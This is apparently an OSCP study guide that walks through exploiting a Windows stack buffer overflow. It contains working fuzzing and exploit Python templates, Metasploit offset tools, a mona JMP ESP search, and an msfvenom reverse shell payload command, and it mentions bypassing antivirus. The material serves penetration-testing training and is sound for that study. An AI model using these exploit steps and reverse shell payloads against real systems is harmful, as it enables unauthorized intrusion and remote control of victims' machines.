

# OSCP  Buffer Overflow Guide \(Windows\)

### 1. Play with the Program

First and foremost we should play with the application, see how it works. how many inputs it takes, is there a command we have to enter before we get to our overflow command, etc.

Make sure the program is running in immunity and connect to it with nc:

```text
nc -nv <IP> <PORT>
```

### 2. Crash Replication

This step is finding a reliable way of crashing the application. This will usually be sending a string of A's, this can be done manually or writing a small python program.


Sometimes the buffer can be very small \(200-300 chars\) and sometimes very large \(10000+\) so adjust your fuzzing accordingly


```text
python -c 'print"A" * 1000'
```

If we want to automatically fuzz with increments of 100 we can use the following:

Fuzz.py \(default script will send increments of 100\)

```text
#!/usr/bin/python 
import sys,socket 
import time 
address = '<target IP>' 
port = <PORT> 
buffer = ['A'] 
counter = 100 
while len(buffer) < 10: 
 buffer.append('A'*counter) 
 counter=counter+100 
try: 
 for string in buffer: 
  print '[+] Sending %s bytes...' % len(string) 
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
  connect=s.connect((address,port)) 
  s.send(string + '\r\n') 
  s.recv(1024) 
  print '[+] Done' 
except: 
  print '[!] Unable to connect to the application. You may have crashed it.' 
  sys.exit(0) 
finally: 
 s.close()
```

Once we know the number for a crash, we can now create our exploit and update the code with what we know. 

### Creating exploit.py


**Make sure to add any prefix commands, remove or add s.send and s.recv to mimic what we sent through netcat to the application.**


```text
#!/usr/bin/python
# ----info--------------------------------------------------------
# Software name: 
# Vulnerable Input: 
# Target IP: 
# PoC Crash Length: 
# Offset: 
# Bad Characters: \x00
# Vulnerable Module: 
# JMP ESP address [eg.0x1480111e]:
# JMP ESP address little endian [eg.\x1e\x11\x80\x14]: 
# Shellcode jump code: N/A

# !!! Comment what you are adjusting in the code !!!
import socket,sys
target = '<ip>' # Target IP
port = <port> # Target Port


#-----------Buffer-Values------------------------------------------
# offset = 
# retrn =
# padding =
# pattern = ("")
# badchars = ("")
# shellcode = ("")
fuzz = "A" * 3000
#-----------Exploit-Code--------------------------------------------
#Adjust s.recv an s.send for the application. Are you recieveing anything after connecting to the application?
try:
  print "\n[+]Sending evil buffer..."
  buffer = fuzz
# buffer = pattern
  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  s.connect((target,port)) #connects to application
  s.recv(1024) #receives welcome message (delete if there is no welcome message)
  s.send(buffer + '\r\n') #sends buffer
  s.recv(1024) #attempts to receive any output from program after buffer has been sent
except:
  print "\n[!]Could not connect[!]"
  sys.exit(0)
finally:
  s.close()
```

Create this python code and fill in all the blanks. edit the code with the correct IP and port and change the exploit code part to send and receive what the application is expecting to send and receive up until our buffer. Running our code we should get a reliable crash of the application every time we run it. only then should we move on.

Once we have a reliable crash we can move on to finding the offset.

### **3. Finding the Offset**

To find the offset we send a unique string of characters to the program and look at the value of the EIP register, We can then use this value to find the offset.

First we generate a unique string:

Kali:

```text
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>
```

Web:

```text
https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
```

Once we have created the unique string. We send this to the program. At the point of crash we can then copy the value from EIP and calculate the offset.

in kali:

```text
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP Value>
```

### **4. Controlling EIP**

Now we have the offset we can change our python code to double check that we are controlling EIP. So we send the offset number of 'A's, we then send 4 'B's \(these should appear in EIP\) and lastly we send the remainder of our PoC crash \(3000\) as C's, as this is where our payload will go later on.

```text
fuzz = "A" * offset + "B" *4 + "C" * (3000 - 4 - offset)
```

We can also try increasing  the number of C's to give us more room for our payload. We need a minimum of 350 characters for a Remote Access Trojan

### **5. Finding Bad Characters**

To find the bad characters we need to send a string from \x00 all the way to \xFF. \x00 is a null byte, and is usually always a bad character.

Python Program to generate bad chars:

```text
import sys 
for x in range(1,256): 
    sys.stdout.write("\\x" + '{:02x}'.format(x))
```

Output:

```text
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff

```

To adjust our python program we can add the string to the badchars variable and uncomment it. we can then change the fuzz variable to the following:

```text
fuzz = "A" * offset + "B" * 4 + badchars
```

We can now send this string to the program in place of the shell code. Once the program has crashed we can follow "ESP in dump" and view the hexdump. Going through each value we should be able to determine if there are any bad characters due to it missing or changing subsequent values.

We then keep a note of these bad characters, remove them from the string and run it again until all bad characters have been discovered.

### **5. Redirecting Execution**

Once we have discovered all the bad characters the  next step is to tell the program to execute our payload. Replacing our B's with the address of ESP will not work as these address values change every time the program crashes or is reset.

So we need to find a "JMP ESP" command hard coded within the program or .dll to use. Using this instruction will redirect EIP to our payload located in ESP.

To find jmp esp commands run the following:

```text
!mona jmp -r esp -b "\x00\x07\x2e\xa0"
```

This command searches for JMP commands pointing to ESP. The reason we list the bad characters is because we do not want these characters appearing in the address of the jmp command as it will corrupt our python code.


If the green text window with the script output does not appear click Window &gt; log data to view the results We also want to make sure our address has ASLR set to false


### **6.Endianness**

  
Once we have discovered an address we would like to use we need to convert it into bytes for our python code to read. we also need to determine the [endianness](https://en.wikipedia.org/wiki/Endianness) of the program. In short if the system uses big endian, the stack gets filled from the top to the bottom and little endian is filled from the bottom towards the top.



So how does this affect us?

If we have an address of **0x625011AF**

if we convert it to Little Endian it will look like: **\xAF\x11\x50\x62**

And if we convert it to Big Endian it will look like: **\x62\x50\x11\xAF**

```text
retrn = "\xAF\x11\x50\x62"
```


**Once we have added the address into our return pointer in python we can then run the program and set a breakpoint \(F2 in immunity\) on our address\(ctrl + g to search for the address in immunity\). Running our exploit will stop the program on our address and we can then follow the steps \(F7 in immunity\) to make sure our return address stored in EIP directs us to our payload \(which should be in ESP :\)**


```text
fuzz = "A" * offset + retrn + "C" * (3000 - 4 - offset)
```

### 5. Creating Payload

Once we are sure that our code is working and redirecting execution to our payload. we can then go ahead and create our payload to grant us a reverse shell.  
kali:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -a x86 --platform windows -b "\x00\x23\x3c\x83\xba" -f py
```

* msfvenom: metasploit payload generator
* -p: type of payload
* LHOST: Local IP address
* LPORT: local port
* -a: architecture of target system
* --platform: Operating system of target
* -b: bad chars
* -e: encoder \(used to bypass antivirus\)
* -f: format of output \(py = python output\)

### **6. NOPS**

Once we have generated our payload we need to add in padding to provide space for our payload to decode itself. We can use [NOP](https://en.wikipedia.org/wiki/NOP_%28code%29) instructions for this which are represented in hex as \x90.

```text
padding = "\x90" * 16
```

So our final buffer should look something like:

```text
buffer = prefix + " " + fuzz + retrn + padding + buf
```

* buffer: Variable name
* prefix: instruction for program
* " ": space
* fuzz:  lots of A's \(offset amount\)
* retrn: return address \(jmp esp\)
* padding: NOPS to allow payload to decode
* buf: shellcode for reverse shell

### 7.TROUBLESHOOTING

* Check IP address - You may be pointing at your dev machine instead of the target you are trying to exploit
* Make sure we are using the right payload in msfvenom for the target
* Make sure to use correct port, sometimes firewalls will block port 4444 for example so we may want to use a common port such as 443
* Is you Edianness correct?
* Check Encoder \(using one might be an issue\) - x86/shikata\_ga\_nai
* Verify Shellcode space. We need at least 351 bytes available to us for shellcode space after our jump to esp.

